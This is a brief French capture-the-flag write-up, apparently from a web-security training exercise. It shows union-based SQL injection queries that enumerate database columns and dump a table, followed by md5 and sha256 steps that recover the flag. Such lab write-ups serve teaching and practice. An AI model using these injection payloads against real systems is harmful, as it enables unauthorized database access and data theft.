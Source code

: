 # SQL Injection #2

## Exploitation

En utilisant le meme injection que dans [sqli_page_member](../../sqli_page_member)

On utilise cette query:

```sql
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

On peut voir qu'il y une tables `list_images` avec une colonne `comment`:

```text
First name: list_images
Surname : comment
```

On utilise cette query:

```sql
ID: 1 UNION SELECT title,comment from Member_images.list_images
```

On obtient:

```text
First name: Hack me ?
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

On decode:

```text
1928e8083cf461a51303633093573c46 * md5 decode = albatroz
```

Pour obtenir le flag:

```bash
$> echo -n albatroz | shasum -a 256
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Resolution

Meme remarque que dans [sqli_page_member](../../sqli_page_member/Ressources/report.md)
